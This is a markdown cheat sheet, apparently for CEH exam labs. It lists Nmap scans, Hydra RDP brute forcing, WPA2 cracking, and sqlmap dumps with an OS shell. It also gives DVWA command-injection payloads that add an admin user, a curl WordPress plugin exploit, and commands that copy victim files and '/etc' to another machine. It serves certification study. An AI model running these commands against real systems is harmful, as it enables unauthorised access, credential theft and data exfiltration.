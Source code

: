 # 🛠 CEH Exam Cheat Sheet

## 📑 Table of Contents
- [Quick Reference](#-quick-reference)
- [Nmap Scans](#-nmap-scans)
- [Android (ADB / Phonesploit)](#-android-adb--phonesploit)
- [RDP](#-rdp)
- [SMB & Drive Mapping](#-smb--drive-mapping-parrotos)
- [Wireshark](#-wireshark)
- [Wireless Cracking](#-wireless-cracking)
- [SQLMap](#-sqlmap)
- [DVWA](#-dvwa)
- [Linux Privilege Escalation](#-linux-privilege-escalation)
- [ELF & DIE](#-elf--die)
- [Steganography](#-steganography)
- [OpenVAS](#-openvas)
- [WordPress](#-wordpress)
- [File Transfer](#-file-transfer)
- [VeraCrypt](#-veracrypt)
- [Key Ports](#-key-ports)

---

## 🔑 Quick Reference


---

## 🔍 Nmap Scans
```bash
# Stealth SYN scan
nmap -sS -v [Target IP]

# Xmas scan
nmap -sX -v [Target IP]

# Maimon scan
nmap -sM -v [Target IP]

# ACK scan (no response = filtered/firewall)
nmap -sA -v [Target IP]

# UDP scan
nmap -sU -v [Target IP]

# NULL scan
nmap -sN -T4 -A -v [Target IP]

# MySQL default port
nmap -p 3306 10.10.1.0/24

# Full range with service versions
nmap -sV -p 0-65535 10.10.1.19

# LDAP / DNS CN
nmap -p 389 10.10.1.0/24
nmap -A 10.10.1.22

python3 -m pip install colorama
python3 phonesploitpro.py
nmap -p 5555 10.10.1.0/24

# Connect to device
phonesploit 10.10.1.14
get shell
cd /sdcard/Downloads
ls
pull /sdcard/Downloads

# Scan RDP
nmap -p 3389 10.10.1.0/24

# Hydra brute force
hydra -L Usernames.txt -P Passwords.txt 10.10.1.11 rdp

# Alternate hydra syntax
hydra -l Administrator -P passwords.txt rdp://10.10.1.11 -t 4 -f -V

smbclient \\\\10.10.1.11\\CEH-Tools -U username

Statistics → Conversations → IPv4 → Sort by Packets

# With password list
aircrack-ng -w password.txt W!F!_Pcap.cap

# WPA2 handshake crack
aircrack-ng handshake.cap -w rockyou.txt
aircrack-ng -a2 -b [Target BSSID] -w /home/attacker/Desktop/Wordlist/password.txt '/home/attacker/Desktop/Sample Captures/WPA2crack-01.cap'

sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie]" --dbs
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie]" -D moviescope --tables
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie]" -D moviescope -T User_Login --dump
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie]" -D moviescope -T User_Login --os-shell

# Recursive crawl & dump to CSV
sqlmap -u "http://www.moviescope.com" --crawl=2 --dump-format=CSV --dump

URL: http://10.10.1.22:8080/DVWA
Username: admin
Password: password

# Commands
| dir c:\wamp64\www\DVWA\
| type c:\wamp64\www\DVWA\file.txt
| tasklist
| whoami
| taskkill /PID [Process ID] /F
| net user Test /Add
| net localgroup Administrators Test /Add

nmap -p 22 10.10.1.0/24
ssh ubuntu@10.10.1.9
Password: toor
cd /
cat [sensitive file]

# Encode
snow -C -m "base64 encoded output" -p "password" restricted.txt restricted2.txt

# Decode
snow -C -p "password" restricted2.txt

CyberChef

Encode/decode base64 online: https://gchq.github.io/CyberChef/

Online Tools

CrackStation: https://crackstation.net

StegOnline: https://stegonline.georgeom.net/upload

docker run -d -p 443:443 --name openvas mikesplain/openvas
URL: https://127.0.0.1

wpscan --url http://10.10.1.22:8080/CEH --api-token [API Token]

# Exploit example
curl -i 'http://10.10.1.22:8080/CEH/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:whoami:NULL:NULL'

# FTP recursive download
wget -m ftp://user:pass@host/remotefolder/

# With lftp
lftp ftp://user:pass@victim-ip
mirror /etc configs_backup

# SCP
scp -r ./loot/192.168.1.50/Camera YourWinUser@192.168.1.20:/Users/YourWinUser/Desktop/loot/

# Mount Windows share
sudo apt install -y cifs-utils
sudo mkdir -p /mnt/winshare
sudo mount -t cifs //192.168.1.20/dropbox /mnt/winshare -o username=YourWinUser,domain=WORKGROUP
cp -r ./loot/192.168.1.50/Camera /mnt/winshare/
sudo umount /mnt/winshare

Key Ports

389 → Domain Controller (LDAP)

3306 → MySQL

3389 → RDP / RAT

5555 → Android ADB
